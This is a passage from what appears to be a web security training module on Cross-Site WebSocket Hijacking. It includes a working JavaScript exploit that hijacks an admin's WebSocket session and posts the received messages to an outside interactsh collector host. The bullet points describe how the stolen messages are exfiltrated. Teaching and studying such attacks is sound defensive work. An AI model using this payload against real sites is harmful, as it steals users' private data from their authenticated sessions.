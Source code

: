 Below is an example exploit that sends the `!get_messages` message via the WebSocket connection and extracts any received messages using [interact.sh](https://app.interactsh.com/#/):

```html
<script>
  function send_message(event){
    socket.send('!get_messages');
  };

  const socket = new WebSocket('ws://172.17.0.2:80/messages');
  socket.onopen = send_message;
  socket.addEventListener('message', ev => {
    fetch('http://ch23a202vtc0000138p0getbibyyyyyyb.oast.fun/', {method: 'POST', mode: 'no-cors', body: ev.data});
  });
</script>

```

After hosting the exploit code on a website under our control, for example, `cwshpayload.htb`, the attack chain works as follows:

- The admin user of the vulnerable web application visits `cwshpayload.htb`.
- The exploit code runs, creating the WebSocket connection to the vulnerable site in the context of the admin user and exfiltrates the admin's messages to `interact.sh`.

![](https://academy.hackthebox.com/storage/modules/231/websockets/cswh_3.png)

**Note:** For this exploit to work, the `SameSite` cookie flag must be set to `None`. Since most browsers apply a default value of `Lax` if the `SameSite` cookie attribute is not set, the attack's success would require a deliberately insecure configuration by the web application administrator.

In our example, we only need to send a single message to the server and exfiltrate a single WebSocket message. In real-world scenarios, we might need to send multiple messages to the server and react dynamically to the web server's messages. However, this is not a problem since the Same-Origin policy does not apply.

Due to browsers' default behavior of the `SameSite` cookie attribute, exploitation of CSWH vulnerabilities becomes increasingly more challenging.


# WebSocket Attacks: Tools & Prevention

* * *

After understanding how to test, analyze, and exploit WebSockets, let us discuss tools that automate much of the manual work. Moreover, we will learn about defensive techniques to prevent WebSocket vulnerabilities.

* * *

## Tools - Interacting with WebSockets

Instead of using Burp to manipulate and replay WebSocket messages, command-line tools such as [wscat](https://github.com/websockets/wscat) and [websocat](https://github.com/vi/websocat) provide similar functionality. We will showcase `websocat` here, but feel free to play around with both tools and choose which one you prefer.
